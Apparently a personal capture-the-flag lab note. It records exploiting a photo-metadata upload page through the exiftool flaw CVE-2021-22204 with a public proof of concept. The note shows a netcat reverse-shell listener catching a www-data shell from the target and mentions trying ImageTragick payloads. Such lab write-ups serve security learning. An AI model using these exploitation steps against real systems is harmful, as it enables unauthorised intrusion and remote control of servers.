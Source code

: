 - Check out the subdomain and follow link on landing page
![[Pasted image 20220505140221.png]]
- Link leads to a web page for uploading photos and displaying their meta data
![[Pasted image 20220505140330.png]]
- This output looks a lot like exiftool output.....
- Try PoC for CVE-2021-22204 from [https://github.com/convisolabs/CVE-2021-22204-exiftool]
```bash
nc -lvnp 9001           
listening on [any] 9001 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.140] 54046
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Should be vulnerable to imagetragick I just can't find a payload that it likes
